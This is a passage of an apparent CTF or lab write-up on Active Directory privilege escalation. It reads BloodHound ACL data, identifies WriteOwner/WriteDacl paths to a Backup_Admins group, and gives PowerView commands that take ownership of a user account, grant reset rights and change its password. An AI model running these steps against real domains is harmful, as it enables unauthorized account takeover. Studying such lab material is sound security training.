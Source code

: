It seems that `tom` has `WriteOwner` rights over `claire`. Let's properly open the `csv` file and do some digging. We are currently able to get a shell in the context of `nico` and `tom`. If we filter the `PrincipalName` column for those two accounts, four relationships stand out.

<figure><img src="../../../.gitbook/assets/reel_excel_rights.png" alt=""><figcaption></figcaption></figure>

It seems that there are two identical attack paths involving the non-default `Backup_Admins` group:

1. `nico` has `WriteOwner` over `herman` who has `WriteDacl` over `Backup_Admins`.
2. `tom` has `WriteOwner` over `claire` who has `WriteDacl` over `Backup_Admins`.

As explained [here](https://adsecurity.org/?p=3658):

* **WriteOwner**: _Provides the ability to take ownership of an object. The owner of an object can gain full control rights on the object. The right to assume ownership of the object. The user must be an object trustee. The user cannot transfer the ownership to other users._
* **WriteDACL**: _Provides the ability to modify security on an object which can lead to Full Control of the object. The right to modify the DACL in the object security descriptor._

Based on this information, we can formulate the following attack path:

1. Use `tom` 's `WriteOnwer` to change `claire`'s password.
2. Use `claire` 's `WriteDacl` to add herself into `Backup_Admins`group.

### Escalating Privileges

We can use PowerView to execute our plan, since it is already within the `BloodHound` directory.

{% hint style="danger" %}
It seems that the box reverts all changes every minute, so all steps must be performed in that timeframe.&#x20;
{% endhint %}

{% code overflow="wrap" %}
```bash
# launch PowerShell
PS C:\Users\tom\Desktop\AD Audit\BloodHound> powershell
# move the directory where PowerView script resides
PS C:\Users\tom\Desktop> cd '.\AD Audit\BloodHound\'
# import PowerView
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Import-Module .\PowerView.ps1
# make tom owner of claire
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
# assign tom the right to reset claire's password
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
# create a secure string
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $pass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
# change claire's password
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword claire -AccountPassword $pass
```
{% endcode %}

